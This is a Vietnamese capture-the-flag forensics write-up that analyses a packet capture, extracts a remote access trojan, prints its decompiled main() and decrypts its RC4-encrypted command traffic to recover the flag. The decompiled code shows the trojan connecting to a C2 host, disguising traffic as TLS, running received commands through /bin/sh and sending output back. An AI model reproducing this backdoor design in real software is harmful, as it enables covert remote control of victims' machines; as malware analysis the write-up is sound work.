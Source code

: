 # Mô tả

**Category** : Forensic **Points** : 500

Tôi cá là ở đây không có gì sú bằng kho báu của Trương Mỹ Lan

Flag format: FUSec{...}

**Bài cho ta một file pcapng**

# Phân tích

Lười quá, mở `exports/http/application-octetstream` xuất file `treasure`(ELF binary) ra, ném vào IDA xem hàm `main()`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned __int8 buf_cmd[5008]; // [rsp+10h] [rbp-27A0h] BYREF
  char buf_res[5000]; // [rsp+13A0h] [rbp-1410h] BYREF
  int pipes[2]; // [rsp+2728h] [rbp-88h] BYREF
  unsigned __int8 key[17]; // [rsp+2730h] [rbp-80h] BYREF
  sockaddr_in serv_addr; // [rsp+2750h] [rbp-60h] BYREF
  unsigned __int8 *fin_res; // [rsp+2768h] [rbp-48h]
  unsigned __int8 *ciphertext; // [rsp+2770h] [rbp-40h]
  pid_t pid; // [rsp+277Ch] [rbp-34h]
  unsigned __int8 *cmd; // [rsp+2780h] [rbp-30h]
  unsigned __int8 *cmd_enc; // [rsp+2788h] [rbp-28h]
  int valread; // [rsp+2794h] [rbp-1Ch]
  int client_fd; // [rsp+2798h] [rbp-18h]
  int sock; // [rsp+279Ch] [rbp-14h]
  int buf_res_s; // [rsp+27A0h] [rbp-10h]
  int cmd_s; // [rsp+27A4h] [rbp-Ch]
  __int64 cod; // [rsp+27A8h] [rbp-8h]

  sock = socket(2, 1, 0);
  if ( sock >= 0 )
  {
    serv_addr.sin_family = 2;
    serv_addr.sin_port = htons(0x1BBu);
    if ( inet_pton(2, "4.236.191.192", &serv_addr.sin_addr) > 0 )
    {
      client_fd = connect(sock, (const struct sockaddr *)&serv_addr, 0x10u);
      if ( client_fd >= 0 )
      {
        snd_cli_hel(sock);
        cnsm_serv_hel_plus(sock);
        snd_cli_hel_fin(sock);
        while ( 1 )
        {
          *(_QWORD *)key = 0x469F7D875D0AE179LL;
          *(_QWORD *)&key[8] = 2730215349196570953LL;
          key[16] = 0;
          memset(buf_cmd, 0, 5000u);
          valread = read(sock, buf_cmd, 5000u);
          cod = end_tst()
              ? (buf_cmd[1] << 8) + (buf_cmd[0] << 16) + buf_cmd[2]
              : buf_cmd[0] + (buf_cmd[1] << 8) + (buf_cmd[2] << 16);
          if ( cod != 1508099 )
            break;
          if ( end_tst() )
            cmd_s = (buf_cmd[3] << 8) + buf_cmd[4];
          else
            cmd_s = (buf_cmd[4] << 8) + buf_cmd[3];
          cmd_enc = (unsigned __int8 *)malloc(cmd_s + 1);
          memcpy(cmd_enc, &buf_cmd[5], cmd_s);
          cmd_enc[cmd_s] = 0;
          cmd = (unsigned __int8 *)malloc(cmd_s + 1);
          rc2(key, cmd_enc, cmd, cmd_s);
          cmd[cmd_s] = 0;
          memset(buf_res, 0, sizeof(buf_res));
          if ( pipe(pipes) == -1 )
            exit(1);
          pid = fork();
          if ( pid == -1 )
            exit(1);
          if ( !pid )
          {
            dup2(pipes[1], 1);
            dup2(pipes[1], 2);
            close(pipes[0]);
            close(pipes[1]);
            execl("/bin/sh", "sh", "-c", cmd, 0);
            exit(1);
          }
          close(pipes[1]);
          buf_res_s = read(pipes[0], buf_res, 0x1388u);
          wait(0);
          if ( !buf_res_s )
          {
            buf_res_s = 13;
            strncpy(buf_res, "(No Return)\n", 0xDu);
          }
          ciphertext = (unsigned __int8 *)malloc(buf_res_s);
          rc2(key, (unsigned __int8 *)buf_res, ciphertext, buf_res_s);
          fin_res = (unsigned __int8 *)malloc(buf_res_s + 5);
          *fin_res = 23;
          fin_res[1] = 3;
          fin_res[2] = 3;
          fin_res[3] = 0;
          fin_res[4] = buf_res_s;
          memcpy(fin_res + 5, ciphertext, buf_res_s);
          send(sock, fin_res, buf_res_s + 5, 0);
          free(cmd_enc);
          free(cmd);
          free(ciphertext);
          free(fin_res);
        }
        close(client_fd);
        return 0;
      }
      else
      {
        puts("Connection Failed");
        return 1;
      }
    }
    else
    {
      puts("Invalid address: Address not supported");
      return 1;
    }
  }
  else
  {
    puts("Socket creation error");
    return 1;
  }
}
```

Đây là một con RAT, kết nối đến 1 server C2 của hacker là **4.236.191.192:443** qua protocol **TLS giả mạo** `snd_cli_hel`, `cnsm_serv_hel_plus`, `snd_cli_hel_fin`

Sau đó nhận lệnh được mã hoá từ C2 server:

```c
if ( cod != 1508099 )
            break;
          if ( end_tst() )
            cmd_s = (buf_cmd[3] << 8) + buf_cmd[4];
          else
            cmd_s = (buf_cmd[4] << 8) + buf_cmd[3];
          cmd_enc = (unsigned __int8 *)malloc(cmd_s + 1);
          memcpy(cmd_enc, &buf_cmd[5], cmd_s);
          cmd_enc[cmd_s] = 0;
          cmd = (unsigned __int8 *)malloc(cmd_s + 1);
          rc2(key, cmd_enc, cmd, cmd_s);
          cmd[cmd_s] = 0;
```

- Kiểm tra 3 byte đầu nếu đúng 3 byte **1508099**(0x170303) tương đương với **TLS application data** thì xử lí tiếp ko thì break

- Trích độ dài và nội dung lệnh từ byte thứ 6 hay là **buf_cmd[5]** sau đó giải mã bằng hàm **rc2()** thực ra nếu để ý kỹ và đi vào trong hàm **rc2()** sẽ thấy rằng thực ra hàm này đang sử dụng mã hoá **RC4** đặt tên như vậy chỉ để lừa chatgbt thôi

Giải mã xong thực hiện câu lệnh đó, lấy output rồi mã hoá cũng dùng hàm **rc2() - Áp dụng mã hoá RC4** gửi lại C2 server cũng qua giả mạo protocol **TLS application data**

Biết vậy rồi thì ta sẽ lấy trực tiếp **tls.app_data** ở trong file pcapng ra luôn (Lưu ý bỏ 3 data của packet đầu đi vì nó chỉ là handshake, không có data bị mã hoá) 

```bash
$ tshark -r chall.pcapng -Y "ip.addr == 4.236.191.192 && tls" -T fields -e tls.app_data
```

Sau đó tạo 1 script decrypt sử dụng mã hoá **RC4**

```python
def rc4_crypt(key: bytes, data: bytes) -> bytes:
    S = list(range(256))
    j = 0
    out = []

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        out.append(byte ^ K)

    return bytes(out)


# Static key from binary
key = bytes([
    0x79, 0xE1, 0x0A, 0x5D, 0x87, 0x7D, 0x9F, 0x46,
    0x49, 0x41, 0x2E, 0x11, 0x65, 0xAC, 0xE3, 0x25
])

# Encrypted hex strings (each line from data.txt)
hex_lines = [
    "b3cc4f",
    "ecd34463f5800cb582fe7045725d733c8ad62a1d1cc08743",
    "b4d3446ffdc6",
    "b7c9427efcca0ccd",
    "aadf",
    "b6d24f33a19f48f7c3fa6e49761e5227d498211b1999c57965e826af94cc15ca66e255e1413513f9a7d2e76085252043ca55ba8d91afa48d5df69da1bac8492ef77dcc51c300d214179539a2569e4458c2c764850ff9f329223caf8f371b5c122a2c4fd5f3deae511e626e8342a67f0111dc53afc1a8d56d47bc2331c421e9bac67f95e596f6f4d89887520a88cb09a646896aee5a0a1d1c1597e34cf5fb4204b76ff91cb6b62c8bbb7c8301b6055eb6362213f6e564054c511bd144867dacbb38c0ba3def74055e8ebf78dd286d24e6487678f5deef",
    "a6d84361b0e92d948eed67463219040ca9f4152d4cd7ab3a65b53daf8e940bc15cf40eb4532f14e4aa",
    "85ee786bf3d41ef380bd43744a2168628ee735421097802164b6698484d710d36bfe14bc2c",
    "a6d84361b08d01a89eae74417017173198dd28520dd39a2c31f86ca2c6c70ad47ab45cff06370be2b2c5f425cd61",
    "ebf5442ec2ca0cb299e0352a06",
]

# Decrypt each line
decrypted_lines = []
for hex_str in hex_lines:
    ciphertext = bytes.fromhex(hex_str)
    plaintext = rc4_crypt(key, ciphertext)
    decrypted_lines.append(plaintext.decode(errors="replace"))  # replace undecodable chars

for line in decrypted_lines:
    print(line)
```

# Flag

ngon

```bash
$ python decode.py
pwd
/home/triplet/Downloads

whoami
triplet

id
uid=1000(triplet) gid=1000(triplet) groups=1000(triplet),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),120(wireshark),134(scanner),142(kaboxer)

echo FUSec{f4k3_TLS_1s_s0m3th1ng_bruuhhh}
FUSec{f4k3_TLS_1s_s0m3th1ng_bruuhhh}

echo "you have been pwned by bory" > pwned.txt
(No Return)
```

`FUSec{f4k3_TLS_1s_s0m3th1ng_bruuhhh}`